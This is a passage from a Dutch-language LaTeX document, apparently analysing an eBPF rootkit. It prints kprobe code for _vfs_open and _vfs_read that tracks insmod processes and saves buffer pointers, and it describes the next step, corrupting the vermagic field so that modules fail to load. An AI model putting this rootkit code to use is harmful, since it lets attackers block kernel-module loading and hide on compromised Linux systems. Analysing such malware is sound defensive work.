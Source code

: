 \begin{verbatim}
SEC("kprobe/_vfs_open")
int kprobe_vfs_open(struct pt_regs *ctx) {
    char comm[TASK_COMM_LEN];
    bpf_get_current_comm(comm, sizeof(comm));

    // Controleer of het proces "insmod" is
    if (!str_equals(comm, "insmod")) return 0;

    // Sla de bestandspointer op voor later gebruik
    u64 pid = bpf_get_current_pid_tgid();
    struct file *file = (struct file *)PT_REGS_PARM2(ctx);
    bpf_map_update_elem(&open_file_map, &pid, &file, BPF_ANY);
    return 0;
}
\end{verbatim}

\subsubsection*{Stap 2 — \texttt{\_vfs\_read}: onderschep de buffer pointer}

De kprobe op \texttt{\_vfs\_read} (adres \texttt{0xccbb80649000}) vuurt op het 
moment dat de kernel de \texttt{.ko}-data in de user-space buffer schrijft. 
De pointer naar die buffer wordt opgeslagen zodat hij later overschreven kan worden:

\begin{verbatim}
SEC("kprobe/_vfs_read")
int kprobe_vfs_read(struct pt_regs *ctx) {
    u64 pid = bpf_get_current_pid_tgid();

    // Is dit een insmod-proces dat we volgen?
    struct file **filep = bpf_map_lookup_elem(&open_file_map, &pid);
    if (!filep) return 0;

    // Sla de user-space buffer pointer op
    // PT_REGS_PARM2 = char __user *buf
    struct read_args_t args = {};
    args.buf = (char *)PT_REGS_PARM2(ctx);
    bpf_map_update_elem(&read_args_map, &pid, &args, BPF_ANY);
    return 0;
}
\end{verbatim}

\subsubsection*{Stap 3 — \texttt{\_\_x64\_sys\_finit\_module}: corruptie via \texttt{bpf\_probe\_write\_user}}

Dit is de kern van de blokkering. De kprobe op \texttt{finit\_module} 
(adres \texttt{0xccbb80053000}) vuurt op het moment dat \texttt{insmod} 
de module aan de kernel aanbiedt. Op dat moment overschrijft de rootkit 
het \texttt{vermagic}-veld in de user-space buffer met een foute waarde:

